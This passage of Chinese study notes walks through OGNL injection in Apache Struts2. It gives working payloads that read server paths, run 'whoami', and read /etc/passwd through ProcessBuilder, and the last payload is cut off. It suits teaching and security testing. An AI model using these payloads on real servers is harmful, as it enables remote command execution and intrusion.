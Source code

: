    ~~~
   %{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
   ~~~

   ![image-20220329231256122](E:\学习\picture\image-20220329231256122.png)

   语句执行后，查看返回的语句信息：

   ![image-20220329231351168](E:\学习\picture\image-20220329231351168.png)

2. #### 获取网站真实路径：

   ~~~
   %{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
   ~~~

   ![image-20220329231515325](E:\学习\picture\image-20220329231515325.png)

   ![image-20220329231641526](E:\学习\picture\image-20220329231641526.png)

   

3. #### 构造查看权限的poc：

   ~~~
   %{
   
   #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
   
   #b=#a.getInputStream(),
   
   #c=new java.io.InputStreamReader(#b),
   
   #d=new java.io.BufferedReader(#c),
   
   #e=new char[50000],
   
   #d.read(#e),
   
   #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
   
   #f.getWriter().println(new java.lang.String(#e)),
   
   #f.getWriter().flush(),#f.getWriter().close()
   
   }
   ~~~

   ![image-20220329231953711](E:\学习\picture\image-20220329231953711.png)

4. #### 执行任意命令只需要将上面的poc中whoami替换：

   ~~~~
   %{
   
   #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),
   
   #b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),
   
   #d=new java.io.BufferedReader(#c),
   
   #e=new char[50000],#d.read(#e),
   
   #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
   ~~~~